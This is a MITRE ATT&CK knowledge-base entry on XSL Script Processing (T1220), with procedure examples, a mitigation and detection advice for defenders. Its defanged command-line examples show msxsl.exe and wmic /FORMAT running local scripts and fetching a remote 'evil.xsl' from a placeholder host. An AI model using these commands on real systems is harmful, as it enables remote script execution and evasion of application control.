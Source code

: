 Title: XSL Script Processing

Description: Adversaries may bypass application control and obscure execution of code by embedding scripts inside XSL files. Extensible Stylesheet Language (XSL) files are commonly used to describe the processing and rendering of data within XML files. To support complex operations, the XSL standard includes support for embedded scripting in various languages. (Citation: Microsoft XSLT Script Mar 2017)

Adversaries may abuse this functionality to execute arbitrary files while potentially bypassing application control. Similar to [Trusted Developer Utilities Proxy

Execution](https://attack.mitre.org/techniques/T1127), the Microsoft common line transformation utility binary (msxsl.exe) (Citation: Microsoft msxsl.exe) can be installed and used to execute malicious JavaScript embedded within local or remote (URL referenced) XSL files. (Citation: Penetration Testing Lab MSXSL July 2017) Since msxsl.exe is not installed by default, an adversary will likely need to package it with dropped files. (Citation: Reaqta MSXSL Spearphishing MAR 2018) Msxsl.exe takes two main arguments, an XML source file and an XSL stylesheet. Since the XSL file is valid XML, the adversary may call the same XSL file twice. When using msxsl.exe adversaries may also give the XML/XSL files an arbitrary file extension.(Citation: XSL Bypass Mar 2019) Command-line examples:(Citation: Penetration Testing Lab MSXSL July 2017)(Citation: XSL Bypass Mar 2019)

* <code>msxsl.exe customers[.]xml script[.]xsl</code>

* <code>msxsl.exe script[.]xsl script[.]xsl</code>

* <code>msxsl.exe script[.]jpeg script[.]jpeg</code>

Another variation of this technique, dubbed "Squiblytwo", involves using [Windows Management Instrumentation](https://attack.mitre.org/techniques/T1047) to invoke JScript or VBScript within an XSL file.(Citation: LOLBAS Wmic) This technique can also execute local/remote scripts and, similar to its [Regsvr32](https://attack.mitre.org/techniques/T1218/010)/ "Squiblydoo" counterpart, leverages a trusted, built-in Windows tool. Adversaries may abuse any alias in [Windows Management Instrumentation](https://attack.mitre.org/techniques/T1047) provided they utilize the /FORMAT switch.(Citation: XSL Bypass Mar 2019)

Command-line examples:(Citation: XSL Bypass Mar 2019)(Citation: LOLBAS Wmic)

* Local File: <code>wmic process list /FORMAT:evil[.]xsl</code>

* Remote File: <code>wmic os get /FORMAT:"https[:]//example[.]com/evil[.]xsl"</code> Metadata:

## ID: T1220

Related Tactics (the tactic objectives that T1220 can be used to accomplish): Defense Evasion URL: https://attack.mitre.org/techniques/T1220

Platforms (the system the adversary is operating within): Windows Procedure Examples (usage examples):

ID: C0022 | Name: Operation Dream Job | Source Type: campaign | Mapping Type: uses | Mapping description: During [Operation Dream Job](https://attack.mitre.org/campaigns/C0022), [Lazarus Group](https://attack.mitre.org/groups/G0032) used a remote XSL script to download a Base64-encoded DLL custom downloader.(Citation: ESET Lazarus Jun 2020) |

ID: G0080 | Name: Cobalt Group | Source Type: group | Mapping Type: uses | Mapping description: [Cobalt Group](https://attack.mitre.org/groups/G0080) used msxsl.exe to bypass AppLocker and to invoke Jscript code from an XSL file.(Citation: Talos Cobalt Group July 2018) |

ID: G0126 | Name: Higaisa | Source Type: group | Mapping Type: uses | Mapping description: [Higaisa](https://attack.mitre.org/groups/G0126) used an XSL file to run VBScript code.(Citation: PTSecurity Higaisa 2020) |

ID: S0373 | Name: Astaroth | Source Type: software | Mapping Type: uses | Mapping description: [Astaroth](https://attack.mitre.org/software/S0373) executes embedded JScript or VBScript in an XSL stylesheet located on a remote domain. (Citation: Cybereason Astaroth Feb 2019) | Mitigations:

Mitigation ID: M1038 | Mitigation name: Execution Prevention | Description: Block execution of code on a system through application control, and/or script blocking. | Detection:

Use process monitoring to monitor the execution and arguments of msxsl.exe and wmic.exe. Compare recent invocations of these utilities with prior history of known good arguments and loaded files to determine anomalous and potentially adversarial activity (ex: URL command line arguments, creation of external network connections, loading of DLLs associated with scripting). (Citation: LOLBAS Wmic) (Citation: Twitter SquiblyTwo Detection APR 2018) Command arguments used before and after the script invocation may also be useful in determining the origin and purpose of the payload being loaded.

The presence of msxsl.exe or other utilities that enable proxy execution that are typically used for development, debugging, and reverse engineering on a system that is not used for these purposes may be suspicious.
